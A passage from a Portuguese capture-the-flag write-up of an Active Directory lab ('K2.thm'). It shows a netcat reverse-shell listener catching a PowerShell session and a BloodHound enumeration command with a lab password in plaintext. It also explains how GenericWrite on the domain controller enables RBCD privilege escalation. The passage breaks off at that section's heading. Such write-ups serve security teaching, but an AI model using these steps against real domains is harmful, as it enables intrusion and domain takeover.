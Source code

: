 Após algum tempo, recebemos a shell como `'o.armstrong'` nosso listener

```
$ rlwrap nc -lvnp 443
Listening on 0.0.0.0 444
Connection received on 10.10.126.150 50291
Windows PowerShell 
Copyright (C) Microsoft Corporation. All rights reserved.


PS C:\Windows\system32> whoami
k2\o.armstrong
```

# 5. BloodHound: Analisando grupos do "o.armstrong"

Enquanto vasculhava o sistema, acabei encontrando a primeira flag no Desktop. No entanto, de forma geral, não encontrei nada de muito relevante inicialmente. Foi então que decidi executar o **BloodHound** para obter uma visão mais ampla do ambiente.

Usei o seguinte comando:
`python3 bloodhound.py -ns 10.10.126.150 --dns-tcp -d K2.thm -u 'o.armstrong' -p 'arMStronG08' -c All --zip`

O objetivo era montar um panorama completo do domínio, principalmente porque ao executar o comando `whoami /all`, observei que o usuário `o.armstrong` pertence ao grupo **`IT Director`**, o que me levou a investigar mais a fundo possíveis permissões e caminhos de escalonamento.

![](attachment/5b026c69fa1b0059fba45c251229cae5.png)

> Essa informação é crucial, pois o grupo ao qual o usuário pertence possui a permissão **`GenericWrite`** sobre o **Domain Controller**. Isso abre um vetor direto de **escalonamento de privilégios no domínio**, permitindo a modificação de atributos sensíveis no objeto da máquina controladora — como a adição de um SPN, essencial para ataques como **Resource-Based Constrained Delegation (RBCD)**.

# 6. Explorando `GenericWrite`no DC via Resource-Based Constrained Delegation (RBCD)
